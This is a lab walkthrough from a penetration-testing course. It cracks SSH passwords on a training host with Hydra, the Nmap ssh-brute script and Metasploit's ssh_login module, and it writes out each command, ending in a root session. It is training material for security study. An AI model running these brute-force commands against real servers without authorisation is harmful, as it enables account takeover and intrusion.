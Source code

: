 ```yaml
---
description: >-
  In this lab, you will learn to run a dictionary attack on SSH service using
  Hydra, Nmap script, and Metasploit.
---
```


# Lab - Bruteforce and Password cracking Live

## Lab Environment

In this lab environment, the user is going to get access to a Kali GUI instance. An SSH server can be accessed using the tools installed on Kali on http://demo.ine.local

**Objective:** Perform the following activities:

**1.** Find the password of user "student" using Hydra. Use password dictionary: /usr/share/wordlists/rockyou.txt.gz

**2.** Find the password of user "administrator" use appropriate Nmap script. Use password dictionary: /usr/share/nmap/nselib/data/passwords.lst

**3.** Find the password of user "root" using the ssh\_login Metasploit module. Use userpass dictionary: /usr/share/wordlists/metasploit/root\_userpass.txt

## Tools

The best tools for this lab are:

* Metasploit Framework
* Hydra
* Nmap

## My Solution

### Hydra

The rockyou.txt is originally compressed via gzip so you have to first decompress it with:

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

The command I ran to find the password for student was:

```
hydra -l student -P /usr/share/wordlists/rockyou.txt demo.ine.local ssh -f
```

![](<../../../../.gitbook/assets/image (29) (1) (1) (1) (1) (1) (1) (1).png>)

Here's confirmation that it works

![](<../../../../.gitbook/assets/image (24) (1) (1) (1) (1) (1).png>)

[This](https://linuxconfig.org/ssh-password-testing-with-hydra-on-kali-linux) can help with using Hydra for ssh

### Nmap

We use the ssh-brute Nmap [script](https://nmap.org/nsedoc/scripts/ssh-brute.html) to find the password for user "administrator"

The script takes username and password list files so we have to create a file for the username

I ran the following to do this: `echo "administrator" > users.lst`

Here's the nmap command:

```
nmap -p22 --script=ssh-brute --script-args userdb=users.lst,passdb=/usr/share/nmap/nselib/data/passwords.lst demo.ine.local
```

Now we verify the credentials

![](<../../../../.gitbook/assets/image (17) (1) (1) (1).png>)

### Metasploit

This [article](https://www.offensive-security.com/metasploit-unleashed/scanner-ssh-auxiliary-modules/) by Offensive Security is very straight forward and easy to follow

Launch Metasploit using `msfconsole`

Then type: `use auxiliary/scanner/ssh/ssh_login`

View options with "show options" and set the ones we need as such:

![](<../../../../.gitbook/assets/image (19) (1) (1) (1) (1) (1).png>)

Now type run and enter

![](<../../../../.gitbook/assets/image (18) (1) (1) (1) (1).png>)

As you can see, the password for root is attack and we're given a session that we can interact with using `sessions -i <id number>` and verify that we are indeed root
